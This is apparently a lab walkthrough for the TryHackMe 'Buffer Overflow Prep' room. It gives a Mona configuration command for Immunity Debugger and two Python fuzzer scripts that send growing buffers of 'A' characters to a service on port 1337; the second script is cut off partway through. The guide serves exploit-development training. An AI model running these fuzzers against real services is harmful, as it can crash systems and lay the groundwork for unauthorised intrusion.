 # Buffer Overflow Guide

This following page recreates the steps on the TryHackMe room linked below in order to perform a simple stack based buffer overflow.

{% embed url="https://tryhackme.com/room/bufferoverflowprep" %}

Configure Mona on the RDP session. Inside Immunity Debugger run the following command in the command box.

```
!mona config -set workingfolder c:\mona\%p
```

![](<../.gitbook/assets/image (1546).png>)

Run the script below to Fuzz the application.

{% tabs %}
{% tab title="Fuzzer.py" %}
```python
import socket, time, sys

ip = "<IP>"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
{% endtab %}

{% tab title="Fuzzer Multiple.py" %}
```python
# Makes uses of multi stage input. (Enter name then message)
import socket, time, sys

ip = "<IP>"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
```